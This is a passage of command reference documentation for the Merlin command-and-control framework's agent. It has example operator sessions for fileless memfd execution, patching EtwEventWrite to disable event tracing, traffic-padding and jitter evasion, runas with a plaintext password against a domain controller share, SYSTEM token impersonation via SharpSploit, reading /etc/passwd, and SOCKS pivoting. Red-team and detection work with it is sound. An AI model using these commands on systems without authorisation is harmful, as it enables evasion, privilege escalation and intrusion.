    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

memfd
-----

.. note::
    This command is only available to agent running on a ``Linux`` operating system!

.. note::
    USAGE: ``memfd filePath [args]``

The ``memfd`` command loads a Linux executable file into memory (RAM) as an anonymous file using the
`memfd_create <https://man7.org/linux/man-pages/man2/memfd_create.2.html>`__ API call, executes it, and returns the
results.
The file is created with an empty string as its name.
Less the fact that RAM is a file on Linux, the executable is not written to disk.
View the `Detecting Linux memfd_create() Fileless Malware with Command Line Forensics
<https://www.sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/>`__
for detection guidance.

.. note::
    This command will not run on Windows agents

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memfd /tmp/hello.py
    [-] Created job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Hello from a Python script

memory
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``memory {read|write|patch} module procedure {readLength | hexData}``

The ``memory`` command is used to interact with the agent's virtual memory through the following methods:

    * patch_
    * read_
    * write_

Uses direct syscalls for ``NtReadVirtualMemory``, ``NtProtectVirtualMemory``, & ``ZwWriteVirtualMemory`` implemented
using `BananaPhone <https://github.com/C-Sto/BananaPhone>`__

.. _patch:

patch
^^^^^

.. note::
    USAGE: ``memory patch module function bytes``

The ``patch`` command locates the address of the provided procedure/function, reads the existing bytes, and the
overwrites them with the provided bytes. A second read is performed to validate the write event. The command would be
the same as calling the ``read`` and ``write`` commands individually.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory patch ntdll.dll EtwEventWrite 9090C3
    [-] Created job quRORyMMxS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job quRORyMMxS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Read  3 bytes from ntdll.dll!EtwEventWrite: 4C8BDC
    Wrote 3 bytes to   ntdll.dll!EtwEventWrite: 9090C3
    Read  3 bytes from ntdll.dll!EtwEventWrite: 9090C3

.. _read:

read
^^^^

.. note::
    USAGE: ``memory read module function length``

The ``read`` command locates the address of the provided procedure/function and reads the specified number of bytes.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory read ntdll.dll EtwEventWrite 3
    [-] Created job YlqClnqRdK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job YlqClnqRdK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Read 3 bytes from ntdll.dll!EtwEventWrite: 4C8BDC

.. _write:

write
^^^^^

.. note::
    USAGE: ``memory write module function bytes``

The ``write`` command locates teh address of the provided procedure/function and writes the specified bytes.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory write ntdll.dll EtwEventWrite 9090C3
    [-] Created job XTXJBLoZuO for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job XTXJBLoZuO for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Wrote 3 bytes to ntdll.dll!EtwEventWrite: 9090C3

modules
-------

.. note::
    USAGE: ``modules``

The ``modules`` command moves to the Modules menu.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» modules
    Merlin[modules]»

netstat
-------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``netstat [-p tcp|udp]``

The ``netstat`` command uses the Windows API to enumerating network connections and listening ports.
Without any arguments, the ``netstat`` command returns all TCP and UDP network connections.

Use ``netstat -p tcp`` to only return TCP connections and ``netstat -p udp`` to only return UDP connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» netstat
    [-] Created job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Proto Local Addr              Foreign Addr            State        PID/Program name
    udp   0.0.0.0:123             0.0.0.0:0                            3272/svchost.exe
    udp   0.0.0.0:500             0.0.0.0:0                            3104/svchost.exe
    udp   0.0.0.0:3389            0.0.0.0:0                            984/svchost.exe
    udp6  :::123                  0.0.0.0:0                            3272/svchost.exe
    udp6  :::500                  0.0.0.0:0                            3104/svchost.exe
    udp6  :::3389                 0.0.0.0:0                            984/svchost.exe
    tcp   0.0.0.0:135             0.0.0.0:0               LISTEN       964/svchost.exe
    tcp   0.0.0.0:445             0.0.0.0:0               LISTEN       4/System
    tcp   0.0.0.0:3389            0.0.0.0:0               LISTEN       984/svchost.exe
    tcp   127.0.0.1:52945         127.0.0.1:5357          TIME_WAIT
    tcp   127.0.0.1:54441         127.0.0.1:5357          TIME_WAIT
    tcp   192.168.1.11:59757      72.21.91.29:80          CLOSE_WAIT   6496/SearchApp.exe
    tcp   192.168.1.11:59763      72.21.91.29:80          CLOSE_WAIT   12076/YourPhone.exe
    tcp6  :::135                  :::0                    LISTEN       964/svchost.exe
    tcp6  :::445                  :::0                    LISTEN       4/System
    tcp6  :::3389                 :::0                    LISTEN       984/svchost.exe

note
----

.. note::
    USAGE: ``note message``

The ``note`` command creates a server-side note that operators can use to record miscellaneous information about an agent.
The note is displayed in a column of the output from the sessions_ command

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» note Demo Agent Here
    [i] Agent c1090dbc-f2f7-4d90-a241-86e0c0217786's note set to: Demo Agent Here
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      c1090dbc-f2f7-4d90-a241-86e0c0217786 | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here


nslookup
--------

.. note::
    USAGE: ``nslookup {hostname|ip address} {hostname|ip address} ...``

The ``nslookup`` command takes a space separated list of IP addresses or hostnames and performs a DNS query using the
host's resolver and returns the results.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» nslookup 8.8.8.8 9.9.9.9 github.com google.com
    [-] Created job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Query: 8.8.8.8, Result: dns.google.
    Query: 9.9.9.9, Result: dns9.quad9.net.
    Query: github.com, Result: 192.30.255.113
    Query: google.com, Result: 142.250.73.238 2607:f8b0:4004:82a::200e

.. _padding:

padding
-------

.. note::
    USAGE: ``padding size``

The ``padding`` control type is used to change the _maximum_ size of a message's padding.
A random value between 0 and the maximum padding value is selected on a per message basis and added to the end of each message.
This is used in an attempt to evade detection when a program looks for messages with same size beaconing out.
The default is 4096. There is no response on the CLI after the instruction has been provided to the agent.
You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set padding 8192
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job wlGTwgtqNx for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

pipes
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``pipes``

The ``pipes`` command lists all of the named pipes on the Windows host where the agent is currently running:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pipes
    [-] Created job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Named pipes:
    \\.\pipe\InitShutdown
    \\.\pipe\lsass
    \\.\pipe\ntsvcs
    \\.\pipe\scerpc
    \\.\pipe\Winsock2\CatalogChangeListener-2f4-0
    \\.\pipe\Winsock2\CatalogChangeListener-3c4-0
    \\.\pipe\epmapper
    \\.\pipe\Winsock2\CatalogChangeListener-254-0
    \\.\pipe\LSM_API_service
    \\.\pipe\Winsock2\CatalogChangeListener-3f8-0
    \\.\pipe\eventlog
    \\.\pipe\Winsock2\CatalogChangeListener-558-0
    \\.\pipe\TermSrv_API_service
    \\.\pipe\Ctx_WinStation_API_service
    \\.\pipe\atsvc
    \\.\pipe\Winsock2\CatalogChangeListener-734-0
    \\.\pipe\wkssvc
    \\.\pipe\SessEnvPublicRpc
    \\.\pipe\Winsock2\CatalogChangeListener-a1c-0
    \\.\pipe\spoolss
    \\.\pipe\Winsock2\CatalogChangeListener-adc-0
    \\.\pipe\trkwks

printenv
--------

.. note::
    USAGE: ``printenv``

The ``printenv`` command is an alias for the ``env`` showall_ command that enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» printenv
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

.. _ps:

ps
--

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``ps``

The ``ps`` command uses the Windows API to gather available information about running processes.
The agent is not running in a high-integrity process then some of the information will be missing.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]]» ps
    [-] Created job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [-] Results job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [+]
    PID     PPID    ARCH    OWNER   EXE
    0       0       x64             [System Process]
    4       0       x64             System
    124     4       x64             Registry
    412     4       x64             smss.exe
    508     496     x64             csrss.exe
    596     496     x64             wininit.exe
    604     588     x64             csrss.exe
    668     588     x64     BUILTIN\Administrators  winlogon.exe
    736     596     x64             services.exe
    <SNIP>
    4648    2504    x64     DESKTOP-H39FR21\bob     sihost.exe
    5732    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5684    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5768    1844    x64     DESKTOP-H39FR21\bob     taskhostw.exe
    5716    736     x64     BUILTIN\Administrators  svchost.exe
    2396    736     x64     NT AUTHORITY\SYSTEM     svchost.exe
    6220    2396    x64     DESKTOP-H39FR21\bob     ctfmon.exe
    6464    736     x64     NT AUTHORITY\LOCAL SERVICE      svchost.exe
    6504    6376    x64     DESKTOP-H39FR21\bob     explorer.exe

pwd
---

.. note::
    USAGE: ``pwd``

The ``pwd`` command uses native Go to get and return the current working directory.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pwd
    [-]Created job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Current working directory: C:\Users\Joe

quit
----

.. note::
    USAGE: ``quit [-y]``

The ``quit`` command is used to exit out of the Merlin Server application. This is also an alias for the ``exit`` command.

.. rev2self:

rev2self
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``rev2self``

The ``rev2self`` command reverts the thread impersonation token to the process token.
This command is an alias for the :ref:`token rev2self` command.
Leverages the RevertToSelf Windows API function.

References:

    * https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself

.. code-block::

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» rev2self
    [-] Created job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+] Successfully reverted to self and dropped the impersonation token

.. _rm:

rm
--

.. note::
    USAGE: ``rm filePath``

The ``rm`` command will remove or delete a file using native Go functions.

`` rm <file path>``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» rm C:\\Users\\rastley\\Downloads\\lyrics.txt
    [-] Created job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] successfully removed file C:\Users\rastley\Downloads\lyrics.txt

runas
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``runas DOMAIN\USER password program [arguments]``

The ``runas`` command will run a program as another user. This is done using the `CreateProcessWithLogonW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`__ Windows API call.

``runas <Domain\\User> <Password> <program> [<program args>]``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» runas ACME\\Administrator S3cretPassw0rd cmd.exe /c dir \\\\DC01.ACME.COM\\C$
    [-] Created job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] Created cmd.exe process with PID 2120

.. _run:

run
---

.. note::
    USAGE: ``run program [arguments]``

The ``run`` command is used to task the agent to run a program on the host and return STDOUT/STDERR. When issuing a command to an agent from
the server, the agent will execute the provided binary file for the program you specified and also pass along any
arguments you provide. It is important to note that program must be in the path. This allows an operator to specify and
use a shell (e.g.,. cmd.exe, powershell.exe, or /bin/bash) or to execute the program directly *WITHOUT* a shell.
For instance, ``ping.exe`` is typically in the host's %PATH% variable on Windows and works *without* specifying ``cmd.exe``.
However, the ``ver`` command is not an executable in the %PATH% and therefore *must* be run from ``cmd.exe``.
Use the shell_ command if you want to use the operating system's default shell directly.

Example using ping:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ping 8.8.8.8
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job DTBnkIfnus for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job DTBnkIfnus

    Pinging 8.8.8.8 with 32 bytes of data:
    Reply from 8.8.8.8: bytes=32 time=23ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=368ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=26ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=171ms TTL=54

    Ping statistics for 8.8.8.8:
        Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
        Minimum = 23ms, Maximum = 368ms, Average = 147ms

Example running ``ver`` *without* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job iOMPERNYGT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job iOMPERNYGT
    exec: "ver": executable file not found in %PATH%

Example running ``ver`` *with* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.
In order to use the `dir`, you must provide executable of the shell environment where that command resides.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.
If you want to use them, you must do so *WITH* a shell.
For Linux, an example would be:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»run bash -c "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. Any inner quotes need to be escaped. The argument can be enclosed in double quotes or single quotes.
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows ``C:WindowsSystem32``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]'C:WindowsSystem32' is not recognized as an internal or external command,
    operable program or batch file.
    [!]exit status 1

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir C:\\Windows\\System32

sdelete
-------

.. note::
    USAGE: ``sdelete filePath``

The ``sdelete`` command securely deletes a file.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sdelete /tmp/deleteMe.txt
    [-] Created job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Securely deleted file: /tmp/deleteMe.txt

sessions
--------

.. note::
    USAGE: ``sessions``

The ``sessions`` command is used to quickly list information about established agents from the main menu to include their status.
The sessions command is available from any menu in the CLI.

* **AGENT GUID** - A unique identifier for every running instance
* **TRANSPORT** - The protocol the agent is communicating over
* **PLATFORM** - The operating system and architecture the agent is running on
* **HOST** - The hostname where the agent is running
* **USER** - The username that hte agent is running as
* **PROCESS** - The Agent's process name followed by its Process ID (PID) in parenthesis
* **STATUS** - The Agent's communiction status of either active, delayed, or dead
* **LAST CHECKIN** - The amount of time that has passed since the agent last checked in
* **NOTE** - A free-form text area for operators to record notes about a specific agent; tracked server-side only

.. code-block:: text

    Merlin» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      d07edfda-e119-4be2-a20f-918ab701fa3c | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here

sharpgen
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``sharpgen <C# code> [spawnto] [spawnto_args]``

.. warning::
    The .NET Core 2.1 SDK must be manually installed by the operator and the SharpGen executable must be built before the ``sharpgen`` command can be used

The ``sharpgen`` command leverages Ryan Cobb's `SharpGen <https://github.com/cobbr/SharpGen>`_ project and the `.NET Core 2.1 SDK <https://dotnet.microsoft.com/download/dotnet-core/2.1>`_ to dynamically compile and execute .NET assemblies. After assembly is compiled, the same steps documented in `execute-assembly`_ are followed. SharpGen also leverages functionality from the `SharpSploit <https://github.com/cobbr/SharpSploit>`_ project that can be called directly from this ``shargen`` command. This command uses a hardcoded output that places compiled executables to the Merlin root directory as ``sharpgen.exe``.

For more granular control and additional configuration options, use the ``windows/x64/csharp/misc/SharpGen`` module.

SharpGen is git a submodule in the ``data/src/cobbr/SharpGen`` directory. From this directory, run the ``dotnet build -c release`` command to build the ``SharpGen.dll`` executable.

The ``sharpgen`` command is executed as: ``shaprgen <code> [<spawnto path> <spawnto args>]``

The ``code`` positional argument is the .NET code you want to compile and execute. All code is automatically wraped in ``Console.WriteLine();`` and it does not need to be included again. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Use ``\`` to escape any characters inside of the code argument and use quotes to enclose the entire code argument (e.g., ``"new Tokens().MakeToken(\"RAstley\", \"\", \"P@ssword\")"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sharpgen "new SharpSploit.Credentials.Tokens().GetSystem()"
    [-] Created job oeOBXfBuPS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job oeOBXfBuPS

    Getting system...
    Impersonate NT AUTHORITY\SYSTEM...
    Processes for NT AUTHORITY\SYSTEM: 25
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Impersonated: NT AUTHORITY\SYSTEM
    True

.. _shell:

shell
-----

.. note::
    USAGE: ``shell command [arguments]``

The ``shell`` command is used to task the agent to execute the provided arguments using the operating system's default
shell and return STDOUT/STDERR. On Windows the ``%COMSPEC%`` shell is used and if it is ``cmd.exe`` then the ``/c``
argument is used. For macOS and Linux, the ``/bin/sh`` shell is used with the ``-c`` argument.
Use the run_ command to execute a program directly without invoking the shell.

Example using ``ver``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. The argument can be enclosed in double quotes or single quotes. All other quotes need to be escaped
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows File Not Found:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]  Volume in drive C has no label.
     Volume Serial Number is AC57-CFB9

     Directory of C:\

    File Not Found

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\\Windows\\System32

.. _skew:

skew
----

.. note::
    USAGE: ``skew amount``

The ``skew`` command is used to introduce a jitter or skew to the agent sleep time to keep traffic from occurring at exact time intervals.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» skew 5
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job lyYQdxckTY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _sleep:

sleep
-----

.. note::
    USAGE: ``sleep duration``

The ``sleep`` control type is used to change the amount of time that an agent will sleep before checking in again.
The default is 30 seconds. The values provided to this command are written in a time format.
For example, ``30s`` is 30 seconds and ``60m`` is 60 minutes.
There is no response on the CLI after the instruction has been provided to the agent.
You can verify the setting was changed using the ``agent info`` command.

Peer-to-peer bind and reverse Agents can be configured with a negative sleep value (e.g., -10s).
The actual amount doesn't matter, just that it is negative.
A negative sleep value prevents the peer-to-peer Agent from communicating on the network UNLESS it has a job.
This means there are no status checkin messages back to the Server at a fixed interval.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sleep 15s
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job npMYqwASOD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

socks
-----

.. note::
    USAGE: ``socks {list | start [interface:]port agentID | stop [interface:]port agentID}``

The ``socks`` command is used to start, stop, or list SOCKS5 listeners. There can only be one SOCKS5 listener per agent.

* :ref:`socks list`
* :ref:`socks start`
* :ref:`socks stop`

.. _socks list:

list
^^^^

.. note::
    USAGE: ``socks list``

The ``list`` command will list active SOCKS5 listeners per agent. If the SOCKS5 listener was configured to listen on
all interfaces (e.g., 0.0.0.0), then the interface will be listed as ``[::]:``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks list
    [i]
            Agent                           Interface:Port
    ==========================================================
    c1090dbc-f2f7-4d90-a241-86e0c0217786    127.0.0.1:9050
    7be9defd-29b8-46ee-8d38-0f3805e9233f    [::]:9051
    6d8a3a59-e484-40b3-977b-530b351106a6    192.168.1.100:9053

.. _socks start:

start
^^^^^

.. note::
    USAGE: ``socks start [interface:]port agentID``

.. warning::
    SOCKS5 listeners do not require authentication. Control access accordingly using firewall rules or SSH tunnels.

.. note::
    In most cases you should only bind to the loopback adapter, 127.0.0.1, to prevent unintentionally exposing the port.

The ``start`` command will start a SOCKS5 listener for the current agent. This command takes an optional third argument
of the interface and port, or just the port, that you want to bind the listener to. If a third argument is not provided
the listener will default to listen on ``127.0.0.1:9050``.



.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks start
    [-] Started SOCKS listener for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 on 127.0.0.1:9050

.. code-block:: text

    Merlin[agent][7be9defd-29b8-46ee-8d38-0f3805e9233f]» socks start 0.0.0.0:9051
    [-] Started SOCKS listener for agent 7be9defd-29b8-46ee-8d38-0f3805e9233f on 0.0.0.0:9051

.. _socks stop:

stop
^^^^

.. note::
    USAGE: ``socks stop [interface:]port agentID``

The ``stop`` command will stop and remove the SOCKS5 listener for the current agent.

.. code-block:: text

